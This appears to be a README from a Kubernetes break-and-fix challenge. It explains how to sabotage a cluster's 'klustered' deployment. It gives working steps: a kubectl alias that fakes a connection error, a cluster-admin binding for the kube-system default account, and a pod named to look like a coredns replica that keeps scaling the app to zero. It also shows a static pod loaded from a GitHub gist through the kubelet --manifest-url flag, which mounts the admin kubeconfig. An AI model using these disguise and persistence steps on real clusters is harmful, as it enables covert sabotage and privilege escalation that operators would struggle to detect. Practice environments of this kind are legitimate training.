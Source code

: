 ## 1. kubectl alias

- vim `~/.bashrc`
- Add alias for kubectl to be an echo of the default message when kubectl is not configure with KUBECONFIG, when they configure KUBECONFIG it would like it didn't work
```
alias kubectl='The connection to the server localhost:8080 was refused - did you specify the right host or port?'
```

## 2. ed Editor

Set the default editor for kubectl, for example when doing `kubectl edit`, then they try to edit the deployment that has replicas 0, they will not be able to edit the yaml

- vim /etc/profile
- add environment variable
```
export KUBE_EDITOR=ed
```

## 3. scale to zero: hidden in coredns

The cluster has a deployment of coredns in namespace `kube-system` with 2 replicas, lets make it 1 replica, and create a pod that looks like the second valid coredns but this pod what is going to run is a `kubectl` while loop script that scales the deployment of the app to zero.

Grant permission with clusterolebinding for the sa `default` in ns `kube-system`

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: system:coredns:admin
subjects:
- kind: ServiceAccount
  name: default # name of your service account
  namespace: kube-system # this is the namespace your service account is in
roleRef: # referring to your ClusterRole
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

Create the downscaler pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    app: coredns
  name: coredns-64897985d-rwdzx
  namespace: kube-system
spec:
  containers:
  - image: bitnami/kubectl
    name: coredns
    command: ["/bin/sh", "-ec", "while :; do kubectl scale deployment klustered --namespace default --replicas 0; sleep 5 ; done"]
```

It would be very difficult to detect as the pod will show as `coredns-64897985d-rwdzx` one of the valid coredns pods.

## 4. scale to zero: hidden in kubelet flag

Lets apply the same brake twice to scale down to zero the deployment, this way if they fix the first version, they might think it didn't work and try to see why it didn't work, but in fact is this second brake also downscalign the deployment to zero.

Lets create the downscaler static pod and will start it by using the kubelet flag `--manifest-url`


Since this is a static pod we can't use the service account, we need to mount in a volume the kubeconfig from the control plane node. Will give it a name that looks like one of the control plane controllers (ie "resolver")

```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    app: coredns
  name: kube-resolver
  namespace: kube-system
spec:
  containers:
  - image: bitnami/kubectl
    name: coredns
    command: ["/bin/sh", "-ec", "while :; do kubectl --kubeconfig=/etc/kubernetes/admin.conf scale deployment klustered --namespace default --replicas 0; sleep 5 ; done"]
    volumeMounts:
    - mountPath: /etc/kubernetes/admin.conf
      name: kubeconfig
  volumes:
  - name: kubeconfig
    hostPath:
      path: /etc/kubernetes/admin.conf
      type: FileOrCreate
```

Create this file in remote location url, for example I used a GitHub gist: https://gist.githubusercontent.com/csantanapr/242dc4a47633a35e8fcb87aadfd337ae/raw/d991b03448ad5bbddab0325b80fe60b62c81e997/kubeletpod.yaml

Then on the control plane node edit the systemd kubelet service file
- `chmod +r /etc/kubernetes/admin.conf`
- vim `/etc/systemd/system/kubelet.service.d/10-kubeadm.conf`
- Add the flag to `--manifest-url=https://gist.githubusercontent.com/csantanapr/242dc4a47633a35e8fcb87aadfd337ae/raw/d991b03448ad5bbddab0325b80fe60b62c81e997/kubeletpod.yaml`
- run `systemctl daemon-reload`
- run `systemctl restart kubelet`

A new pod will show up in `kube-system` namespace as `kube-scheduler-<wokernode-names>`
 and it will look like one of the other normal control pods (ie scheduler, controller)

